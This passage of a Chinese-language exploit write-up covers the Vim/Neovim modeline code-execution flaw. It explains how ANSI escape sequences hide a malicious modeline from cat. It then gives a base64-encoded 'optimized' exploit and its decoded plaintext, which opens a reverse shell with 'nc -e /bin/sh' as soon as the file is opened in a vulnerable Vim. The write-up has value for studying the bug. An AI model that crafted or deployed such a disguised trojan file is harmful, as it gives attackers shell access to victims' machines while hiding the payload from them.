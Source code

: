```shell
# cat打开时候，将光标移动到当前行的首部
# 配合\x1b[K和\x1b[?7l，见下文
# 具体分析和Demo见附件 ANSI escape codes部分。

\x16 (v)
# 作用同上

\x1b[2K (c)
# 配合\x1b[1G和\x1b[?7l，删除当前位置到行首的内容(不会改变文本，只改变输出内容)
# 经过这个处理，cat的查看结果就只剩下后面的信息了
# 具体分析和Demo见附件 ANSI escape codes部分。

Nothing here." (c)
# 准备让cat查看文件输出的字符串，与Vim打开文件时查看到的内容相同

\x16 (v)
# 作用同上

\x1b[2D (c) 
# 光标向前移动2位
# 具体分析和Demo见附件 ANSI escape codes部分。

  \n (c&v)
# 因为光标前移,两个空格会覆盖Nothing here." 字符串最后的引号"和\x16
# 于是cat的输出只剩下 \x16Nothing here.\n
# \n换行触发 silent! w | ... | file | silent! [some text]  整条命令的执行
# 其中call system完成系统命令执行建立反弹shell


```

  

##### b. EXP源码

原作者exp: [shell.txt](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/shell.txt)

优化过的exp: 

```shell
echo "G1s/N2wbUyBOb3RoaW5nIGhlcmUuGzpzaWxlbnQhIHcgfCBjYWxsIHN5c3RlbSgnbm9odXAgbmMudHJhZGl0aW9uYWwgMTI3LjAuMC4xIDk5OTkgLWUgL2Jpbi9zaCAmJykgfCByZWRyYXchIHwgZmlsZSB8IHNpbGVudCEgIyAiIHZpbTogc2V0IGZlbiBmZG09ZXhwciBmZGU9YXNzZXJ0X2ZhaWxzKCdzZXRcIGZkZT14XCBcfFwgc291cmNlXCFcIFwlJykgZmRsPTA6IBYbWzFHFhtbMktOb3RoaW5nIGhlcmUuIhYbWzJEICAK" | base64 --decode > exp.txt

# base64编码对应的明文
\x1b[?7l\x1bS Nothing here.\x1b:silent! w | call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[2KNothing here."\x16\x1b[2D  \n

# 修改了四处
# 修改原因见附件
# nc -> nc.traditional 
# \x1b[K -> \x1b[2K 
# \x1b[D -> \x1b[2D 
#  \n  ->   \n (增加了一个空格)

```
